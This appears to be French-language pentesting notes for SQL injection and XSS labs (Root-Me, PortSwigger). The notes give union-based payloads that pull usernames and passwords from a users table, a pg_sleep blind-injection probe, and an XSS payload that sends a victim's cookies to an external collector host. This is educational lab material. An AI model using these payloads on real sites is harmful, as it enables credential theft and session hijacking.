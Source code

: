 ### Méthodologie pour une requête affichée sur la page

- Vérifier qu'une injection SQL est possible[cf](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-authentification-GBK?action_solution=voir&debut_affiche_solutions=1#pagination_affiche_solutions) + [cf](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-String?action_solution=voir#ancre_solution)
- Récupérer le nombre de colonnes retournées par la requête
```sql
' order by X--
```
- Déterminer quels champs peuvent afficher le texte
```sql
qzdqzdq' union select 'qdz',NULL,NULL--
```
- Récupérer la liste des tables avec la cheetsheet portswigger
- Ou récupérer directement une information d'une table connue ou standard (ex : users)
```sql
qzdqzdq' union select username,password,NULL from users--
```

### Méthodologie pour une requête qui n'est pas affichée

- Faire une timebased SQL avec la cheetsheet portswigger ou la correction des labs :
[Time based Lab](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)
[Time based avec récupération d'informations](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)
```sql
'||pg_sleep(10)--
```

-----

## XSS

### Liens

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

[Portswigger Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

### Méthodologie pour un contenu affiché (Si il n'est pas afficher partir de l'étape 4)

- Vérifier que du XSS est possible
```html
a<b>Test</b>b
```
- Chercher les caractères interdits
- Essayer d'exécuter du script
```html
a<script>alert(0)</script>
```
```html
<a href="javascript:alert(1)">Test</a>
```
```html
<body onload=alert(1)>
```
```html
<img src=x onerror=alert(1)>
```
```html
<svg onload=alert(1)>
```
- Si on peut faire exécuter le XSS chez un autre utilisateur on peut récupérer ses cookies :
```html
<script>document.location='BEECEPTOR/'+document.cookie</script>
```
